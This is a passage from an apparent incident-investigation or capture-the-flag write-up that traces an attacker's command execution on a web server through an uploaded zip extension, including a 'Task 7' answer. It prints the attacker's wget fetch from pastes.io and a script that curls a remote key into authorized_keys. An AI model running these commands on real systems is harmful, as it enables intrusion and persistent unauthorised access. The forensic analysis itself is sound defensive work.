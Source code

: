 ![](https://telegra.ph/file/5cbc6bedb586547691195.png)

The parameter "cmd" is configured as "whoami," a command designed to reveal the identity of the currently logged-in user. As anticipated, the subsequent HTTP packet contains the server's response in the form of JSON.

![](https://telegra.ph/file/84c75c13ed39c1238bf96.png)

The attacker has effectively attained root access to the web server, granting them complete control. Subsequently, they delete the zip file to eliminate the indicator of compromise, presumably attempting to conceal their actions while enumerating the web server.

In our ongoing investigation, the attacker resumes testing various username-password combinations before revisiting the previously successful set of credentials.

![](https://telegra.ph/file/3fd526f4147627a8ebf02.png)

Interestingly, the attacker's IP address changes at this point, transitioning from 156.146.62.213 to 138.199.59.221. This alteration could signify a switch in their VPN, a connection from a different network, or a change in the system they are using.

Nevertheless, we can infer that this is the same attacker or, at the very least, someone affiliated with the original attacker. The new IP address resumes the same attack within a minute of the conclusion of the brute force attack conducted by the initial IP address. They leverage the cracked credentials to log back in, reupload "rce_api_extension.zip," configure it as before, and execute another series of commands using a GET request. This time, they run "cat /etc/passwd" to enumerate usernames of all users set up on the web server, along with details on each account. Subsequently, they once again delete the zip file to cover their tracks.

A novel development occurs at this point. The attacker uploads the zip file once more, as in their previous actions, and issues a command through a GET request. However, this time the command is 

```bash
wget https://pastes.io/raw/bx5gcr0et8
```

![](https://telegra.ph/file/a5c72383cbc4919e0e325.png)

The attacker is downloading something onto the web server using the text-sharing site "pastes.io."

`Task 7 Answer: pastes.io`

Following the link in the wget, we land on a raw webpage containing the following text.

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

The attacker has uploaded a bash script to the web server, which, when executed, downloads another text file from a separate link into the authorized SSH RSA keys. Subsequently, the script restarts the SSH service on the server. To enhance security controls, it would be prudent to hash this script file and add it to EDRs (Endpoint Detection and Response systems) to detect any future attempts to use it.

We’ll go ahead and following the link to the other file used in the first script the attacker uploaded. Going to that webpage, we’re once again met with raw text.
